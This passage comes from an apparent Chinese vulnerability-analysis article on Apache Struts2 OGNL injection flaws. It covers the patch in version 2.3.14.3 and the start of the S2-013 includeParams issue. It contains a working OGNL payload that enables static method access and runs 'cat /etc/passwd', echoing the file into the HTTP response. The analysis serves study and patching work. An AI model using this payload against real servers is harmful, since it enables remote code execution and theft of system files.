 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f76e41ecfca59e62c08f2f31a3b80053a5ec2f3d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f76e41ecfca59e62c08f2f31a3b80053a5ec2f3d.png)

如果要使用`Runtime#exec()`方法来执行命令也可以，不过要添加`#_memberAccess.allowStaticMethodAccess=true`。前面使用`ProcessBuilder#start()`，由于不需要调用静态方法，所以无需先将`SecurityMemberAccess`的`allowStaticMethodAccess`改为`true`。

```php
%{#_memberAccess.allowStaticMethodAccess=true,
#a=(@java.lang.Runtime@getRuntime().exec(new java.lang.String[]{"cat","/etc/passwd"})),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),
#f.getWriter().close()}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0387f192dd96a78ba6203d3fe79563a82b30dbe9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0387f192dd96a78ba6203d3fe79563a82b30dbe9.png)

漏洞修复
----

通过比对代码，发现在`2.3.14.3`版本的`OgnlTextParser.java#evaluate()`方法里，将位置索引值`pos`的初始化移到了`for`循环之前。这样修改，使得第一次OGNL表达式计算后，起始位置`pos`的值会更新，而不会重新置`0`，从而避免了二次计算OGNL表达式。&lt;br&gt;

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e8ea4d0542dca887dbfd34e8556fe64b3bc8493a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e8ea4d0542dca887dbfd34e8556fe64b3bc8493a.png)

S2-013
------

官方漏洞公告：  
<https://cwiki.apache.org/confluence/display/WW/S2-013>

影响版本：`Struts 2.0.0` - `Struts 2.3.14.1`

漏洞复现与分析
-------

从漏洞公告中可获悉漏洞出现在`<s:url>`和`<s:a>`标签中的`includeParams`属性。&lt;br&gt;  
`includeParams`属性接收三个值：

- `none`：表示url中不包含参数(默认就是`none`)。
- `get`：表示url中只包含`GET`参数。
- `all`：表示url中既包括`GET`参数也包括`POST`参数。

当`<s:url>`和`<s:a>`标签指定了`includeParams`属性为`get`或`all`时，Struts2在处理url的参数时会进行两次OGNL表达式计算，从而导致注入的Java代码执行。

其实这个漏洞和`S2-001`是类似的，只是这次漏洞时出现在`<s:url>`和`<s:a>`标签的处理过程中而已。
